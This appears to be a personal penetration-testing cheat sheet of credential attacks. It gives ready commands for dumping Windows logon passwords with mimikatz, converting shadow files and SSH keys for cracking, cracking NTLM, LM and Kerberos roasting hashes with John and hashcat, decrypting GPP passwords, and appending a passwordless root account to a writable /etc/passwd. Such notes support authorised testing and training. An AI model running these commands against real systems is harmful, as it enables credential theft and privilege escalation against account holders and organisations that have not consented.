 # Get
Run mimikatz non-interactively:
```powershell
.\mimikatz.exe privilege::debug sekurlsa::logonpasswords exit
```
# Convert
passwd -> john
```
unshadow passwd shadow > unshadowed.hash
```
SSH Key -> john
```bash
ssh2john $file > id_rsa.hash
```

# Crack
#### John
```
john --wordlist=/usr/share/wordlists/rockyou.txt $file
```

For LM Hashs:
1. Copy lines into hashfile (include user, uid, LMHash and NTHash)
2. Run john with `--format=LM --show` and without attack type (e.g. wordlist). It will identify 2 hashes per lines, bc LM hashes can be cracked partly. Also, if it displays `????`, this part of the LM wasn't cracked yet. But it needs to.
3. Figure out capitalization of password. I've created a script to get that using the NTML Hash (did I ever test it?...). Alternatively, create wordlist file with only the found password canidate in uppercase. Run john with `--rules --format=NT --wordlist=` to get the password correctly capitalized. ![[checkLMagainstNTLM.py]]
#### Hashcat
Kerberos AS-REP
```bash
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
Kerberos TGS-REP
```bash
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
NTLM Hash
```bash
sudo hashcat -m 1000 NTLMHashes.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
NT Hash
```bash
hashcat -a 3 -m 900 --encoding-to utf16le NTHashes.txt
```
#### If set through GPP
```bash
gpp-decrypt "$hash"
```
#### If unsalted
https://crackstation.net/

# Exploit
If `/etc/passwd` is writeable
```bash
echo 'dummy::0:0::/root:/bin/bash' >>/etc/passwd
su - dummy
```
Or with acutal credential
```bash
openssl passwd -1 -salt dummy dummy
```

# Identify
Hashes
`hashid $hash`
`hash-identifier`

Find credentials in source code
`~/Documents/activeInformationGathering/trufflehog filesystem --no-verification $path`
#### Windows
| | | | | 
|-|-|-|-|
| $Administrator:$|$500:$|$NO PASSWORD*********************:$|$BE134K40129560B46534340292AF4E72:::$|
|USER     |UID|            LM Hash             |     NT Hash (also called NTLM)|


CrackStation -> RockYou.txt (john)



#### Linux
| | | | | |
|-|-|-|-|-|
|root:|\$6|\$IodYKEbO|\$5TglyZFgGW72oeW0Ql/9Wt7KwW2XWeW3TNmBUo94Qsj1tJg.tDs1HIuIlmyr/:|18251:0:99999:7:::|
|user| $*$|  Salt  |                     Hashed Password                         | Account Information|

|$(*)$|Algorithm|Hashcat|
|-|-|-|
|$1$  |MD5 |500|
|$2a$|Blowfish|3200|
|$2y$|Blowfish|
|$5$|SHA-256|7400|
|$6$|SHA-512|1800|

